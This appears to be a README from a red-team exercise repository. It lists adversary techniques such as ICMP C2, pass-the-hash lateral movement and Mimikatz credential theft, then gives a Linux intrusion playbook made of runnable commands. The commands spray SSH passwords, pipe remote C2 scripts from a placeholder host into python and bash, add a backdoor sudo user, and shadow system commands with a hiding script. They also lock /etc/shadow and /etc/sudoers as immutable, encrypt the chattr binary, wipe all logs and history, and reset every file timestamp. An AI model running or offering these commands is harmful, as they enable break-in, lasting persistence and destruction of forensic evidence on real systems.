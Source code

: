 # CS2020 repository

#### MSEL concepts:
##### Authenticated C2 via ICMP on Linux and Windows
##### Fallback channels using hardcoded IPs and calculated subnets
##### Proxied lateral movement using PTT/PTH via WMI, RPC/DCOM, SMB, and WinRM 
##### Defense evasion using in-memory payloads, encryption, timestamp modification, and byte randomization
##### Credential access using Mimikittenz, Mimikatz, Minidump, Rubeus, and InternalMonologue
##### Privilege escalation using process injection, parent process spoofing, and token theft

###### DMZ
```txt
# initial access
spraySSH <TARGET> <USERDICTIONARY> <PASSWORDDICTIONARY>

# on penetration, backup C2 and proxy
nohup curl --insecure -sv https://<IP>/c2_http_basic_server.py|python - & disown
nohup curl --insecure -sv https://<IP>/c2_python_proxy_server.py|python - & disown

# edit proxychains.conf
localnet 127.0.0.0/255.0.0.0
socks4 <IP> <PORT> <PASSWORD>

# maintaining access, root user and SSH
# passwd root (out of scope)
adduser <c2_NAME>
usermod -aG sudo <c2_NAME>
ssh-keygen -t rsa

# post exploitation
curl --insecure -sv https://<IP>/redghost.sh| bash -
sysctl -w net.ipv4.icmp_echo_ignore_all=1
curl --insecure https://<IP>/icmp_basic_server -o c2_icmp_basic_server && chmod +x c2_icmp_basic_server
mkdir /bin/.usr/ && cd /bin/.usr/ && curl --insecure https://<IP>/bash_hide.sh -o c2_bash_hide.sh && chmod +x c2_bash_hide.sh

# edit c2_bash_hide.sh
THINGTOHIDE=c2

# edit ~/.bashrc
PATH=/bin/.usr/:${PATH}
# file located in first path /bin/.usr/c2_bash_hide.sh 
for f in "netstat" "iptables" "kill" "ps" "pgrep" "pkill" "ls" "rm" "rmdir" "passwd" "shutdown" "chmod" "sudo" "su" "cat" "useradd" "id" "ln" "unlink" "which" "gpasswd" "bash" "sh" "env" "echo" "history" "tcpdump" "chattr" "lsattr" "export" "mv" "grep" "egrep" "find"; do 
	ln -s /bin/.usr/c2_bash_hide.sh /bin/.usr/${f};
done;

# lock files, keep password, encrypt 
for f in "~/.bashrc" "/bin/.usr/c2_bash_hide.sh"  "/etc/shadow" "/etc/group" "/etc/sudoers" "/root/.ssh/id_rsa*" "/<c2_NAME>/.ssh/id_rsa*"; do 
  chattr +i ${f};
done;
openssl enc -aes-256-cbc -salt -pbkdf2 -in chattr -out chattr.tmp -k <PASSWORD> & mv chattr.tmp chattr;

# clear timestamps and logs
for f in `find /var/log/ -type f -name "*" 2>/dev/null`; do
  echo "" > ${f} 2>&1> /dev/null;
done;
for f in `find / -type f -name "*" 2>/dev/null`; do
  touch ${f} 2>&1> /dev/null;
done;
history -c && echo "" > ~/.bash_history
```
